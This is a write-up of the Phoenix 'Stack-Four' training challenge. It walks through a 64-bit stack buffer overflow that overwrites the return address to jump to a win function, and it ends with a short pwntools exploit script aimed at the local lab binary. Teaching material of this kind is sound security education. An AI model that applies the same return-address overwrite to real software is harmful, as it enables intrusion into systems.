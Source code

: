 In this challenge, `main()` calls another function called `start_level()` to do stuff (get input and print), as opposed to `main()` doing it like in the challenges before.
Because of this, we have to tackle it differently (ever so slightly).
Looking at the `disas start_level` and the disassembler we can get a rough image of what the stack might look like -


[stackfourdisasstartlevel](../Images/PhoenixExploit/stackfourdisasstartlevel.JPG)


[stackfourcutter](../Images/PhoenixExploit/stackfourcutter.JPG)

A rough sketch of the stack would look something like this:


[stackfourstack](../Images/PhoenixExploit/stackfourstack.JPG)

Now, we can see that the buffer is `0x50` (80 bytes) long.
An important thing to remember is that, because we're working with 64-bit architecture, everything will be 64-bits long (8 bytes) - including registers, memory locations, etc.
Thus, the `old $rbp` section will be 8 bytes long.
This would force us to make a padding that is 88 bytes in length (80 + 8 = 88 ;) ).

However, one more thing. We still need to overwrite `$rip` (instruction pointer, return address) with a return address that is going to be useful.
Normally, `$rip` would hold the address of the function that called `start_level()`(or the current function) so that when everything is broken down and `$rsp` (stack pointer) reaches it, it would have an address to return to.
But as hackers, we can exploit this to return to a function that is never even called in the program.

For our final preparation step, we need to find out the address of `complete_level()`, because in this case, `complete_level()` is our win condition.
This can be done through a disassembler, other methods such as using GDB: `disas complete_level`, `x complete_level`, etc., or we could even get the address through `pwntools`.

An example:


[stackfourdisascompletelevel](../Images/PhoenixExploit/stackfourdisascompletelevel.JPG)

Final Exploit:
```python
from pwn import *

p = process('./vuln')

# variables
BUF_RIP = 88 # bytes from start of buffer to $rip
complete_level = 0x401196 # address of complete_level

# payload
payload = b'A'*BUF_RIP # padding to $rip
payload += p64(complete_level) # address of complete_level in $rip

# receive
p.recvuntil(b'Welcome to Stack-Four, brought to you by https://exploit.education')

# send payload
p.sendline(payload)

# do this
p.interactive()
```

